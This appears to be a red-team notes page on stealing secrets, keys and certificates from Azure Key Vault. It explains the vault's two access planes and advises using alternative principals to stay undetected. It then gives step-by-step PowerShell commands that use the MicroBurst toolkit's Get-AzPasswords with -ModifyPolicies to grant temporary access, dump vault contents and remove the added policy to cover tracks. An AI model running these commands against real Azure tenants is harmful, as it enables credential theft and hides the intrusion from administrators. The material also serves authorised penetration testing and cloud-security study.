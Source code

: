 # Pillaging keys, secrets, and certificates from Key Vaults

## Explanation

### Azure Key Vault is a service for managing application secrets, keys, and certificates in the Azure platform. The primary use case of Key Vault is to provide a secure way for application developers to centrally store sensitive information that their code needs to use at runtime without making that information part of the code. The sensitive information that is commonly stored in Key Vault could be tokens, passwords, data store connection strings, API keys, and other secret types.

### Access to a Key Vault resource is controlled through two planes:

#### 1) Management Plane (endpoint URL: management.azure.com)

#### 2) Data Plane (endpoint URL: VAULT-NAME.vault.azure.com)

## Management Plane

 - The management plane is the endpoint that administrators interact with to perform administrative operations, such as creating and deleting Key Vault instances, retrieving Key Vault properties, and updating access policies.

## Data Plane

 - The data plane is the interface that applications interact with to access the sensitive information stored in the vault (secrets, keys, and certificates). The operations that can be performed on this plane include reading, adding, deleting, or modifying keys, secrets, and certificates.

### When reviewing key vaults, it is important to first look at the access policies to see if your current user account has rights to the vaults. If your user does not have rights to the vaults and you are attempting to stay under the radar, you may want to look at how you can access the vaults with other authorized security principals. In many cases, these rights are applied to automation Run as accounts (see later in this chapter), app registrations, and/or managed identities.

### Here are some options for using alternative principals to access key vaults:

• Automation accounts: Create a new runbook that uses the Run as account to access the key vault.

• App registrations: Authenticate as the app registration and access the key vault.

• Managed Identities: Generate REST API tokens for the identity to access the key vault with.

# Exfiltrate secrets, keys and certificates in Key Vault

#### 1) Authenticate to Contributor user/role account

    Connect-AzAccount

#### 2) Import MicroBurst
   
    Import-Module MicroBurst.psm1

#### 3) Dump out sensitive information from the Key Vault resources

    Get-AzPasswords -AutomationAccounts N -AppServices N -Keys Y -ACR N -CosmosDB N -ModifyPolicies Y -Verbose | Out-GridView 

#### 4) When prompted, select the Azure subscription and click OK

 - MicroBurst will then enumerate all Key Vault resources, add an access policy to temporarily grant permissions, exfiltrate the information in them, and remove the added access policy. (Hence the Y option to -ModifyPolicies flag)

